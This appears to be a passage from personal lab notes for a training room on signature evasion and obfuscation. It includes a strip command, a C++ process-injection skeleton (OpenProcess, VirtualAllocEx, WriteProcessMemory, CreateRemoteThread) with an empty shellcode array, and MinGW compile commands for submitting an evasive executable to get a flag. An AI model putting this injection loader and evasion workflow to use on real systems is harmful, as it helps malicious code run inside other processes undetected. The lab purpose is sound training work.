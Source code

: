 `$ strip --strip-all <binary>.exe`

![](/assets/img/Pasted image 20230115113629.png)

- Several other properties should be considered before actively using tool, such as **entropy** or **hash**.
- These concepts are covered in Task 5 of Signature Evasion room.


- Now, remove any meaningful identifiers or debug information from the C++ source code below.
- Once adequately obfuscated and stripped, compile the source code using **MingW32-G+** and submit it to webserver at IP.

**Note**: The file name must be `challenge-8.exe` to receive the flag.

```powershell
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
} 
```

##### Compiling C Program in MingW32-gcc:

`user@AttackBox$ i686-w64-mingw32-gcc calc.c -o calc-MSF.exe`

##### Compiling C++ Program in MingW32-C++:

`user@AttackBox$ i686-w64-mingw32-c++ challenge-8.cpp -o challenge-8.exe`
